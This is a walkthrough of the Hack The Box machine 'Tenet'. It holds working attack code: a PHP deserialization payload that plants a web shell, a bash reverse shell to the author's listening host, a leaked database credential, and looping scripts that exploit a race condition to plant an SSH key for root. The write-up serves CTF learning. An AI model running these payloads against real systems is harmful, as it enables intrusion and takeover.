# Box 




https://www.hackthebox.eu/home/machines/profile/309

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.220 10.10.10.220
```



Let's see the website : 



I am used to add `$box_name.htb` in my `/etc/hosts` file at the start of my machine and we can find another website powered by wordpress : 



One post is really interesting `http://tenet.htb/index.php/2020/12/16/logs/` : 



It seems that there is a `sator.php` file with his backup.

I tried on both website and found the file  http://10.10.10.223/sator.php

I then tried to add ".old", ".bak",".save","~", and we can get the code if you go to this link : 

http://10.10.10.223/sator.php.bak

## Exploitation

Let's see the code : 



It seems clear that we have a php deserialization exploit here. 

If you want to know how it works, I suggest the Ippsec's videos (https://www.youtube.com/watch?v=HaW15aMzBUM)

To create our payload easily I created a php file that generates it. 

```php
<?php

class DatabaseExport
{
	public $user_file = 'rev.php';
	public $data = '<?php system($_GET["cmd"]);?>';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{

		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		//echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}


$app = new DatabaseExport;
echo '\'' . serialize($app) . '\'';


?>


```

We get that payload : 

```php
'O:14:"DatabaseExport":2:{s:9:"user_file";s:7:"rev.php";s:4:"data";s:29:"<?php system($_GET["cmd"]);?>";}'
```

If you want to be sure it is working I used curl to encode my payload.  I created a script that I will use to get our reverse_shell

```bash
#!/bin/bash

curl -G \
      --data-urlencode "arepo=$1" \
      "http://10.10.10.223/sator.php"
```

Executes it and you should have a new webpage http://10.10.10.203/rev.php



You can add `?cmd=command` to get a RCE.

Now we can use this link to get a reverse_shell : 

For the same reasons of the last payload, we need to encode it.

```bash
curl -G \
--data-urlencode "cmd=bash -c 'exec bash -i &>/dev/tcp/10.10.14.17/1234 <&1'" \
http://10.10.10.223/rev.php
```

We know have our shell : 



## Post-Exploitation

### User

After landing on the box I found the user password directly. 

You can find the `wp-config` file in the `/var/www/html/wordpress` folder where you can find a password : 


so we have a login :

```
neil:Opera2112
```



### Root

Classic `sudo -l` 



Let's read the script 



From what I see we have a race condition in `addKey()` function. 

We should be able to write in the `$tmpfile` our own keys to be added in the `authorized_keys` file of root.

I tried a lof of exploit before getting the right one, I used two scripts to get my root shell :

The first one copy the key to the right folder.

```bash
#/bin/bash

while [ 1 ] ; do 
rm -rf /tmp/ssh-*
FILE=$(ls /tmp | grep ssh)
cat  /home/neil/.ssh/id_rsa.pub >> "/tmp/${FILE}"
echo $FILE
ssh root@localhost || true
done
```

and this one start the sudo command in a loop :

```bash
#/bin/bash
for i in {1..999}; do 
sudo /usr/local/bin/enableSSH.sh
done
```

And you should have your shell : 



Rooted.